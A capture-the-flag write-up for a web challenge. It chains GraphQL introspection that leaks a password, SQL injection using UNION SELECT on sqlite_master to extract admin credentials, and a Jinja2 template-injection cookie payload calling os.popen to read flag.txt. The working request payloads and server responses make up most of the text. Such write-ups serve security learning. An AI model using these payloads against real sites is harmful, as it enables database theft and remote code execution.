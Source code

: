 # maze
**Category: Web**

After connecting to the maze server we are greeted with a login page:
![login](images/login.png)

There didn't seem to be any easy way to get past this. A good thing to try here is to discover more endpoints. I thought the site might have a `robots.txt` file that might expose some more routes on the server. Accessing `/robots.txt` revealed the following config:
```
/sup3r_secr37_@p1
```

This endpoint turned out to be a GraphQL api with [introspection](https://graphql.org/learn/introspection/) enabled. This lets us view what kinds of queries are available.  

Let's build a quick query to see what kind of data we can find:

```graphql
query AllTraders {
  allTraders {
    edges {
      node {
        username
        coins {
          edges {
            node {
              body
              title
              password
            }
          }
        }
      }
    }
  }
}
```

```json
{
  "data": {
    "allTraders": {
      "edges": [
        {
          "node": {
            "username": "pop_eax",
            "coins": {
              "edges": [
                {
                  "node": {
                    "body": "XFT is the utility token that grants entry into the Offshift ecosystem",
                    "title": "XFT",
                    "password": "iigvj3xMVuSI9GzXhJJWNeI"
                  }
                }
              ]
            }
          }
        }
      ]
    }
  }
}
```

Great, a password! Trying out `XFT` / `iigvj3xMVuSI9GzXhJJWNeI` as the login works, and we get to a dashboard:

![logged-in](images/logged-in.png)

There is a link at the top which takes us to an admin login page. We'll need to find credentials for this.

Meanwhile, clicking the first image takes us to `/trade?coin=xft` and provides us with some info on the coin.

```http
GET /trade?coin=xft HTTP/1.1
```
```html
<div class="card-image">
    <img src="/static/xft.jpg">
    <span class="card-title">XFT</span>
    <a class="btn-floating halfway-fab waves-effect waves-light indigo darken-4" href="javascript:disabled()"><i class="medium material-icons">add</i></a>
</div>
<div class="card-content black">
    <p>An ERC-20 token, XFT is the utility token that grants entry into the Offshift ecosystem and gives users the ability to shift to and from zkAssets. It’s the public, tradeable side of the Offshift ecosystem, and its value is determined by the market.</p>
</div>
```

The backend is probably running a query like `SELECT * FROM table WHERE name = {user-input}`. We can test for SQL injection by doing the following:

```http
GET /trade?coin=xft'+OR+1=1--+ HTTP/1.1
```
And indeed, we get the same response back with information about the XFT coin. The next step is to work out how many columns are on the current table. (We'll need to know this to form queries to exfiltrate data.) We can do this by using the `ORDER BY` keyword with different values to see which one fails to return anything:

Payload | HTTP Response Code
---|---
`xft'+ORDER+BY+1--+` | 200
`xft'+ORDER+BY+2--+` | 200
`xft'+ORDER+BY+3--+` | 500

Since all values work until 3, we know the current table has 2 columns. 

Next, let's find out what other tables are available by doing a `UNION SELECT` and grabbing values from sqlite_master:

```http
GET /trade?coin=xft'+union+select+'1',+tbl_name+FROM+sqlite_master+WHERE+type='table'+and+tbl_name+NOT+like+'sqlite_%'--+ HTTP/1.1
```
```html
<div class="card-image">
  <img src="/static/1.jpg">
  <span class="card-title">1</span>
  <a class="btn-floating halfway-fab waves-effect waves-light indigo darken-4" href="javascript:disabled()"><i class="medium material-icons">add</i></a>
</div>
<div class="card-content black">
  <p>admin</p>
</div>
```

Cool, `admin` is the first table to come back. Since we are looking for a way into the admin panel, this looks like a good place to investigate. Let's query for this table's structure:

```http
GET /trade?coin=xft'+union+select+'1',sql+FROM+sqlite_master+WHERE+type!='meta'+AND+sql+NOT+NULL+AND+name+='admin'--+ HTTP/1.1
```

```html
<div class="card-image">
  <img src="/static/1.jpg">
  <span class="card-title">1</span>
  <a class="btn-floating halfway-fab waves-effect waves-light indigo darken-4" href="javascript:disabled()"><i class="medium material-icons">add</i></a>
</div>
<div class="card-content black">
  <p>CREATE TABLE admin(username TEXT NOT NULL, password TEXT NOT NULL)</p>
</div>
```

Now that we know the table structure, we can pull values from it:
```http
GET /trade?coin=xft'+union+select+username,password+FROM+admin--+ HTTP/1.1
```

```html
<div class="card-image">
  <img src="/static/admin.jpg">
  <span class="card-title">ADMIN</span>
  <a class="btn-floating halfway-fab waves-effect waves-light indigo darken-4" href="javascript:disabled()"><i class="medium material-icons">add</i></a>
</div>
<div class="card-content black">
  <p>p0To3zTQuvFDzjhO9</p>
</div>
```

Ok, now we have credentials, `admin` / `p0To3zTQuvFDzjhO9`. We can login to `/admin` and hopefully find a flag:

![admin](images/admin.png)

Hmm, no flag. We aren't out of the maze yet. 

I noticed that logging in as the admin set a cookie, `name: skid`. If we change the cookie value to a different name, that gets rendered in the chat interface instead. This made me think the page could be vulnerable to a server-side template injection attack. We can test this theory by providing a custom payload, `{{ 7*191 }}`, to see if it evaluates the expression:

![admin-injection](images/admin-injection.png)

Awesome. Using this payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-subprocesspopen), we can achieve remote code execution:

```http
GET /admin HTTP/1.1
Cookie: session=<redacted>; name="{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}"
```
```html
<script>var name = "Dockerfile
__pycache__
app.py
coins.db
flag.txt
note
requirements.txt
run.sh
sandbox
static
templates
wsgi.py
";</script>
```

```http
GET /admin HTTP/1.1
Cookie: session=<redacted>; name="{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}"
```

```html
 <script>var name = "flag{u_35c@p3d_7h3_m@z3_5ucc3ssfu77y9933}
";</script>
```

Maze escaped! 😎
